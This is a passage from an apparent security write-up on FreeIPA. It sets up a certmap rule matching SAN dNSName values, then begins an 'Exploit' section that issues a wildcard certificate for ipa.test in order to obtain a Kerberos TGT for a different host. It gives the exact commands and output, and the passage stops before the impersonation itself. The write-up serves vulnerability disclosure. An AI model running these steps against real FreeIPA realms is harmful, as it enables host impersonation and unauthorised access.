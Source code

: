 ```shell
-------------------------
```

Finally, add a certmap rule that uses SAN `dNSName` values to locate
the principal:

```shell
# ipa certmaprule-add certmap2 \
    --maprule "(fqdn={subject_dns_name})"
--------------------------------------------------
Added Certificate Identity Mapping Rule "certmap2"
--------------------------------------------------
  Rule name: certmap2
  Mapping rule: (fqdn={subject_dns_name})
  Enabled: TRUE
```

### Exploit

We will issue a wildcard certificate for `ipa.test`, and use it to
obtain a TGT for a different host.  You could use *Certmonger* to
request the certificate, but I will interact directly with FreeIPA
via the `ipa` client program.  The operator is the `host/ipa.test`
principal (I `kinit`ed using the host keytab):

```shell
$ klist
Ticket cache: KEYRING:persistent:1001:krb_ccache_UnnYkF2
Default principal: host/ipa.test@IPA.TEST

Valid starting     Expires            Service principal
29/11/22 03:52:59  30/11/22 03:52:59  krbtgt/IPA.TEST@IPA.TEST
```

Create a keypair and CSR:

```shell
$ openssl req -new -subj '/CN=ipa.test/' -nodes \
    -keyout server.key -out server.csr
Generating a 2048 bit RSA private key
........................................................+++
.....................................................................................................................+++
writing new private key to 'server.key'
-----
```

Request the certificate, being sure to specify the `wildcard`
profile:

```shell
$ ipa cert-request server.csr \
    --principal host/ipa.test \
    --profile-id wildcard \
    --certificate-out server.pem
  Issuing CA: ipa
  Certificate: MIIENTCC...
  Subject: CN=ipa.test,O=IPA.TEST 202211171708
  Subject DNS name: ipa.test, *.ipa.test
  Issuer: CN=Certificate Authority,O=IPA.TEST 202211171708
  Not Before: Tue Nov 29 09:14:09 2022 UTC
  Not After: Fri Nov 29 09:14:09 2024 UTC
  Serial number: 16
  Serial number (hex): 0x10
```
